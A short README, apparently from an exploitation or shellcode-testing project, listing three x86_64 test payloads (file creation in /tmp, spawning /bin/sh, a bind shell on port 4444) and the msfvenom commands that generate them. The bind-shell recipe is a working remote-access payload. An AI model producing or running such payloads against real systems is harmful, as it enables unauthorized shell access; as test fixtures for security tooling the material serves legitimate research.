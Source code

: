 # Shellcodes

All test payloads are for `x86_64`, a quick recap of each one:

- shellcode_file: creates a file named `pwnd_AAA` under `/tmp/`
- shellcode_sh: spawns a `/bin/sh`
- shellcode_bind: binds an interactive shell on port `4444` 


All test payloads are generated with `msfvenom` (from the Metasploit Framework) because laziness, to make your own payloads:

**shellcode_file:**
```
msfvenom -p linux/x64/exec CMD="touch /tmp/pwnd_AAA" -o shellcodes/shellcode_file
```

**shellcode_sh:**
```
msfvenom -p linux/x64/exec CMD="/bin/sh" -o shellcodes/shellcode_sh
```

**shellcode_bind:**
```
msfvenom -p linux/x64/shell_bind_tcp LPORT=4444 -o shellcodes/shellcode_bind
```
